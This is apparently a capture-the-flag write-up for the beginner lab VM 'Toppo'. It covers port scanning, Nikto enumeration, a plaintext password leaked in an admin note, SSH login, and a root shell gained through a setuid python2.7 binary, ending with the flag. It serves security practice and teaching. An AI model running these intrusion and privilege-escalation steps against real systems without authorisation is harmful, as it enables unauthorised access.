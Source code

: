 ```yaml
---
layout: post
title: CTF Toppo
date:   2022-01-22 10:54:42 -0600
categories: CTF
tags: Linux
---
```

# Description

```zsh
The Machine isn't hard to own and don't require advanced exploitation .
Level : Beginner
DHCP : activated
Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) .
If you have any question : my twitter is @h4d3sw0rm
Happy Hacking ! 
```

# Netdiscover
![](https://i.imgur.com/hFzxCnQ.png)
192.168.0.43

# nmap
```zsh
➜  ~ nmap -sV -p- 192.168.0.43
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-22 10:58 CET
Nmap scan report for 192.168.0.43
Host is up (0.011s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
56317/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.26 seconds
```
22, 80, 111, 56317

# Port 80
## Nikto
```zsh
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
```
In the `admin` directory we have one file, notes.txt:
```zsh
Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```
Password: 12345ted123

# Port 22
ssh with the password ssh `ted@192.168.0.43`.
```zsh
ssh ted@192.168.0.43
```
I'm in

# lse.sh
```zsh
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
chmod +x lse.sh
./lse.sh
```
And this is what I found interesting:
```zsh
    Hostname: Toppo
       Linux: 3.16.0-4-586
Distribution: Debian GNU/Linux 8.10 (jessie)
Architecture: i686
============================================================( file system )=====
[*] fst000 Writable files outside user's home.............................. yes!
[*] fst010 Binaries with setuid bit........................................ yes!
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/bin/python2.7
/usr/bin/mawk
---
[!] fst030 Can we write to any setuid binary?.............................. yes!
---
/usr/bin/python2.7
---
```
That's all.

Let's see what we can do with python.
# gtfobin
https://gtfobins.github.io/gtfobins/python/

```zsh
ted@Toppo:/home$ python
Python 2.7.9 (default, Aug 13 2016, 16:41:35) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os; os.system("/bin/sh")
# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
# whoami
root
```
# flag.txt
```zsh

cat /root/flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```


































